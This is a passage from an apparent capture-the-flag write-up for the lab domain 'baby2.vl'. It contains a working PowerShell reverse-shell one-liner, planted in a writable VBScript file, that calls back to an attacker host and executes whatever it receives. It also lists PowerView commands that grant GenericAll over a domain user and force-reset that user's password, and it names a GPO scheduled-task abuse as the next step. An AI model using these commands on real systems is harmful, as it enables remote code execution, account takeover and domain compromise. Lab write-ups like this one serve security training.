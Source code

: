 We can see that we can actually control the file: `ACL:Everyone:ALLOWED/I/FULL`

So let's modify the file to get us the initial foothold by spawning a PowerShell reverse shell.

```vb
createobject("wscript.shell").run"cmd.exe /c powershell ""$client=New-Object System.Net.Sockets.TCPClient('10.8.0.107',9192);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()",0
```

<img src="/images/Pasted image 20231228125736.png">

We spawned a shell which belongs to `Amelia.Griffiths`, we can now read the user flag.
## Privilege Escalation

For this part, we must enumerate the environment first, so let's use python's version of bloodhound.

```
$ bloodhoundpy -c All -d baby2.vl -dc dc.baby2.vl -u Carl.Moore -p 'Carl.Moore' -ns 10.10.101.112
```

And after we gather all the stuff and load them into bloodhound, we can see what permission does our owned user 

<img src="/images/Pasted image 20231228124055.png">

`Amelia.Griffiths` Is a member of a group called `LEGACY` which has `WriteDacl` permissions over the `GPOADM` user of the domain, in that case let's use those techniques: 

1. [Grant Rights](https://www.thehacker.recipes/a-d/movement/dacl/grant-rights)
2. [ForceChangePassword](https://www.thehacker.recipes/a-d/movement/dacl/forcechangepassword).

Transfer the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the machine and then:

```
PS > . .\PowerView.ps1
PS > Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths"
```

We are granting `GenericALL` over the user `GPOADM` and then we can use the second technique:

```
PS > $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS > Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword
```

Then we can try if that worked:

<img src="/images/Pasted image 20231231102612.png">

We can try using `evil-winrm` to log in, but that won't work just yet, just because if we list the local accounts on the machine we don't actually have the `gpoadm` user there, so we must add it first. In order to that, we must abuse the GPO rights, using the **[Immediate Scheduled Task](https://www.thehacker.recipes/a-d/movement/group-policies#immediate-scheduled-task) technique.
